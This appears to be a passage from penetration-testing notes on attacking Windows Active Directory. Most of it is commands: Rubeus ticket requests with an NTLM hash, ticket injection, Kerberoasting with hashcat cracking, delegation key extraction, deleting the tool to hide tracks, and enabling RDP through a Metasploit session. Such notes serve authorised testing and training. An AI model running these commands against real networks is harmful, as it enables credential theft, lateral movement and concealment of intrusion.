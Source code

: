 ### 3. Request a TGT via Overpass-the-Hash
if we have an NTLM hash of a user, we can request a TGT without needing their clear text password:
```ps1
Rubeus.exe asktgt /user:Administrator /rc4:<NTLM_HASH> /domain:test.local
```
Once we obtain the TGT, we can inject it into memory using
```
Rubeus.exe ptt /ticket:TGT.kirbi
```

### 4. Kerberoasting
We can extract service account hashes for offline cracking using `Rubeus.exe` using the command below
```ps1
Rubeus.exe kerberoast
```
And we will crack the hash we obtained using hashcat with the following command
```ps1
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```

### 5. Obtain AES Keys (Privileged Access)
We can extract AES keys for further authentication attacks using `Rubeus.exe` using the following
```ps1
Rubeus.exe tgtdeleg
```

### 6. Clean Up (Optional)
After using Rubeus, we can cover up our tracks by deleting `Rubeus.exe`
```ps1
del Rubeus.exe
```

---

## Alternative Access to Compromised Machine using RDP
If we have local Administrator access to a machine we can enable `RDP` for GUI access if it was disabled prior to compromise, using the Metasploit module `post/windows/manage/enable_rdp`, we will assume we already have a meterpreter shell with Administrator privileges

```sh
msfconsole
use post/windows/manage/enable_rdp
sessions
set session <sessionsid>
run
```
On another terminal window we will run the following command to get GUI RDP access to our compromised machine
```sh
xfreerdp /u:administrator /p:Password1 /d:test.local /v:<TARGET_IP>
```

---